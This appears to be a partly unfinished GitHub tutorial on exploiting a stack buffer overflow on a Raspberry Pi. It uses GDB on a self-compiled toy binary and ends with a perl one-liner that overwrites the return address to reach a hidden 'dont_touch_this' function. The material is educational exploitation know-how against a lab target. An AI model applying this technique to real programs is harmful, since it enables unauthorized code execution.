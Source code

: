 # Buffer overflow on ARM architecture
To be completed :sweat_smile:

## Prerequisites
-	A RaspberryPi and a distro. For this tutorial, I had an up-to-date Raspbian Stretch Lite with LXDE.
-	GCC and GDB.

## ARM registers and stack
TODO

## An example of buffer overflow
### Initial state
- We have a binary without its source code but compiled with debug information.
- We know how to use it: `./prog2 PASS` where `PASS` is a 4-character string.
- We would like to know if there's interesting stuff or even dead code in it.

### Playground
Run GDB:
```bash
gdb prog2
```
What we can disassemble with GDB:
```assembly
(gdb) disassemble
/usr/include/arm-linux-gnueabihf/bits/sys_errlist.h  __gmon_start__                                       frame_dummy
/usr/include/arm-linux-gnueabihf/bits/types.h        __gmon_start__@plt                                   int
/usr/include/libio.h                                 __init_array_end                                     long int
/usr/include/stdio.h                                 __init_array_start                                   long long int
/usr/lib/gcc/arm-linux-gnueabihf/6/include/stddef.h  __libc_csu_fini                                      long long unsigned int
_DYNAMIC                                             __libc_csu_init                                      long unsigned int
_GLOBAL_OFFSET_TABLE_                                __libc_start_main                                    main
_IO_2_1_stderr_                                      __libc_start_main@plt                                prog2.c
_IO_2_1_stdin_                                       __off64_t                                            puts
_IO_2_1_stdout_                                      __off_t                                              puts@plt
_IO_FILE                                             __quad_t                                             register_tm_clones
_IO_lock_t                                           _bss_end__                                           short int
_IO_marker                                           _edata                                               short unsigned int
_IO_stdin_used                                       _end                                                 signed char
__FRAME_END__                                        _fini                                                size_t
__JCR_END__                                          _init                                                sizetype
__JCR_LIST__                                         _start                                               stderr
__TMC_END__                                          abort                                                stdin
__bss_end__                                          abort@plt                                            stdout
__bss_start                                          call_weak_fn                                         strcpy
__bss_start__                                        char                                                 strcpy@plt
__data_start                                         completed                                            sys_errlist
__do_global_dtors_aux                                data_start                                           sys_nerr
__do_global_dtors_aux_fini_array_entry               deregister_tm_clones                                 unsigned char
__dso_handle                                         dont_touch_this                                      unsigned int
__end__                                              exit
__frame_dummy_init_array_entry                       exit@plt
```
Lots of stuff there... We can find at least two interesting:
- `main`
- `dont_touch_this`. Yes, I compiled the code myself for this tutorial. Of course, you should not name critical code like this!

Let's disassemble the main function
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x000104b8 <+0>:     push    {r11, lr}
   0x000104bc <+4>:     add     r11, sp, #4
   0x000104c0 <+8>:     sub     sp, sp, #16
   0x000104c4 <+12>:    str     r0, [r11, #-16]
   0x000104c8 <+16>:    str     r1, [r11, #-20] ; 0xffffffec
   0x000104cc <+20>:    ldr     r3, [r11, #-20] ; 0xffffffec
   0x000104d0 <+24>:    add     r3, r3, #4
   0x000104d4 <+28>:    ldr     r2, [r3]
   0x000104d8 <+32>:    sub     r3, r11, #8
   0x000104dc <+36>:    mov     r1, r2
   0x000104e0 <+40>:    mov     r0, r3
   0x000104e4 <+44>:    bl      0x1032c <strcpy@plt>
   0x000104e8 <+48>:    mov     r3, #0
   0x000104ec <+52>:    mov     r0, r3
   0x000104f0 <+56>:    sub     sp, r11, #4
   0x000104f4 <+60>:    pop     {r11, pc}
End of assembler dump.
```
- No call to `dont_touch_this`. It means this is a dead code section. Why?
- Oh, `strcpy`! We found a breach! This functions must not be used nowadays as it doesn't check buffer length (https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml). We should try a buffer overflow at this line.

If we disassemble `dont_touch_this`, we can get the entry point of this function (address `0x0001049c`):
```assembly
(gdb) disassemble dont_touch_this
Dump of assembler code for function dont_touch_this:
   0x0001049c <+0>:     push    {r11, lr}
   0x000104a0 <+4>:     add     r11, sp, #4
   0x000104a4 <+8>:     ldr     r0, [pc, #8]    ; 0x104b4 <dont_touch_this+24>
   0x000104a8 <+12>:    bl      0x10338 <puts@plt>
   0x000104ac <+16>:    mov     r0, #0
   0x000104b0 <+20>:    bl      0x1035c <exit@plt>
   0x000104b4 <+24>:    andeq   r0, r1, r8, ror #10
End of assembler dump.
```
Putting a breakpoint right after the `strcpy`: 
```assembly
(gdb) break *0x000104e8
Breakpoint 1 at 0x104e8: file prog2.c, line 14.
```
Running the progrm with valid input and checking reisters and stack values:
```assembly
(gdb) run AAAA
Starting program: /home/pi/Documents/tutorial/prog2 AAAA
Breakpoint 1, main (argc=2, argv=0x7efff684) at prog2.c:14
14          return 0;
```

```assembly
(gdb) info registers
r0             0x7efff524       2130703652
r1             0x7efff7d7       2130704343
r2             0x0      0
r3             0x9      9
r4             0x104f8  66808
r5             0x0      0
r6             0x10374  66420
r7             0x0      0
r8             0x0      0
r9             0x0      0
r10            0x76fff000       1996484608
r11            0x7efff52c       2130703660
r12            0x7efff524       2130703652
sp             0x7efff518       0x7efff518
lr             0x104e8  66792
pc             0x104e8  0x104e8 <main+48>
cpsr           0x20000010       536870928
```
```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x41414141
0x7efff528:     0x00000000      0x76e80678      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xf35a2f10      0xfb4ddc14      0x000104f8      0x00000000
```
- In the stack, we can see our `AAAA` as `0x41414141` (ASCII codes, little-endian).
- `0x76e80678` is the return address.

Same thing with longer input:
```assembly
(gdb) run ABCDABCD
Starting program: /home/pi/Documents/tutorial/prog2 ABCDABCD
```

```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x44434241
0x7efff528:     0x44434241      0x76e80600      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xc9cf5894      0xc1d8ab90      0x000104f8      0x00000000
```
- As expected, we find the `0x44434241` twice (corresponds to `ABCD`).  

```assembly
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x76e80600 in __libc_start_main (main=0x7efff684, argc=1996115968, argv=0x76e80600 <__libc_start_main+156>, init=0x104f8 <__libc_csu_init>,
    fini=0x10558 <__libc_csu_fini>, rtld_fini=0x76fdf9b8 <_dl_fini>, stack_end=0x7efff684) at libc-start.c:247
247     libc-start.c: No such file or directory.
```
If we continue the program execution, we see a segfault while the return address is `0x76e80600`..
There's already a buffer overflow here. However, it would be useful to redirect it to the `dont_touch_this` method to see what's in there.

```bash
pi@raspberrypi:~/Documents/tutorial $ ./prog2 $(perl -e 'print "ABCDABCD\x9c\x04\x01";')
The master key is 0xDEADBEEF
```
YES! We entered the dead code and found a master key :smiling_imp:
- `ABCDABCD` to fill the stack with some bytes (it could be anything).
- The next 3 bytes are the entry point of `dont_touch_this` in little endian (see GDB output).
- I was lucky because this binary was compiled without stack protection. It seems a bit crazy but, on a default Raspbian distro, the `fstack-protector` flag is not enabled...

If I tried my buffer overflow attack when the binary has been compiled with the stack protector, I would get the following message:
```bash
*** stack smashing detected ***: ./prog2 terminated
Aborted__
```

## References
https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1

http://billyellis.net/
